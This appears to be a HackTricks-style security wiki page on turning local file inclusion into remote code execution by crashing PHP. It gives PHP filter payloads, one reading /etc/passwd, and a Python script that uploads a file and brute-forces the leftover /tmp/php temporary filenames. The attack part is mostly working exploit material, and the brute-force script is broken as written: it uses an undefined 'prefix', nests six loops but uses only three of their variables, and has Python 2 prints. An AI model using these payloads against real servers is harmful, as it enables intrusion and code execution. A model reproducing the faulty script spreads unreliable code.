 # LFI2RCE via Segmentation Fault

{{#include ../../banners/hacktricks-training.md}}

According to the writeups [https://spyclub.tech/2018/12/21/one-line-and-return-of-one-line-php-writeup/](https://spyclub.tech/2018/12/21/one-line-and-return-of-one-line-php-writeup/) (second part) and [https://hackmd.io/@ZzDmROodQUynQsF9je3Q5Q/rJlfZva0m?type=view](https://hackmd.io/@ZzDmROodQUynQsF9je3Q5Q/rJlfZva0m?type=view), the following payloads caused a segmentation fault in PHP:

```php
// PHP 7.0
include("php://filter/string.strip_tags/resource=/etc/passwd");

// PHP 7.2
include("php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAAAAAAAAAAAAAAAA%ff%ff%ff%ff%ff%ff%ff%ffAAAAAAAAAAAAAAAAAAAAAAAA");
```

You should know that if you **send** a **POST** request **containing** a **file**, PHP will create a **temporary file in `/tmp/php<something>`** with the contents of that file. This file will be **automatically deleted** once the request was processed.

If you find a **LFI** and you manage to **trigger** a segmentation fault in PHP, the **temporary file will never be deleted**. Therefore, you can **search** for it with the **LFI** vulnerability until you find it and execute arbitrary code.

You can use the docker image [https://hub.docker.com/r/easyengine/php7.0](https://hub.docker.com/r/easyengine/php7.0) for testing.

```python
# upload file with segmentation fault
import requests
url = "http://localhost:8008/index.php?i=php://filter/string.strip_tags/resource=/etc/passwd"
files = {'file': open('la.php','rb')}
response = requests.post(url, files=files)


# Search for the file (improve this with threads)
import requests
import string
import threading

charset = string.ascii_letters + string.digits

host = "127.0.0.1"
port = 80
base_url = "http://%s:%d" % (host, port)


def bruteforce(charset):
    for i in charset:
        for j in charset:
            for k in charset:
                for l in charset:
                    for m in charset:
                        for n in charset:
                            filename = prefix + i + j + k
                            url = "%s/index.php?i=/tmp/php%s" % (base_url, filename)
                            print url
                            response = requests.get(url)
                            if 'spyd3r' in response.content:
                                print "[+] Include success!"
                                return True


def main():
    bruteforce(charset)

if __name__ == "__main__":
    main()
```

{{#include ../../banners/hacktricks-training.md}}



